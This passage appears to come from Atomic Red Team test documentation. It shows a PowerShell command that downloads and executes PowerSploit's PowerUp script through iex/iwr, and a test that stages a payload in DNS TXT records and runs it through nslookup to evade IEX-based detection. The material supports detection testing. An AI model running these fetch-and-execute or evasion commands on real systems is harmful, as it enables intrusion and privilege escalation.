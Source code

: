#### Attack Commands: Run with `powershell`!

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
iex(iwr https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/d943001a7defb5e0d1657085a77a0e78609be58f/Privesc/PowerUp.ps1 -UseBasicParsing)
Invoke-AllChecks
```

<br/>
<br/>

## Atomic Test #22 - Abuse Nslookup with DNS Records

Red teamer's avoid IEX and Invoke-WebRequest in your PowerShell commands. Instead, host a text record with a payload to compromise hosts.
[reference](https://twitter.com/jstrosch/status/1237382986557001729)

**Supported Platforms:** Windows

**auto_generated_guid:** 999bff6d-dc15-44c9-9f5c-e1051bfc86e1

#### Attack Commands: Run with `powershell`!

```powershell
# creating a custom nslookup function that will indeed call nslookup but forces the result to be "whoami"
# this would not be part of a real attack but helpful for this simulation
function nslookup  { &"$env:windir\system32\nslookup.exe" @args | Out-Null; @("","whoami")}
powershell .(nslookup -q=txt example.com 8.8.8.8)[-1]
```

<br/>
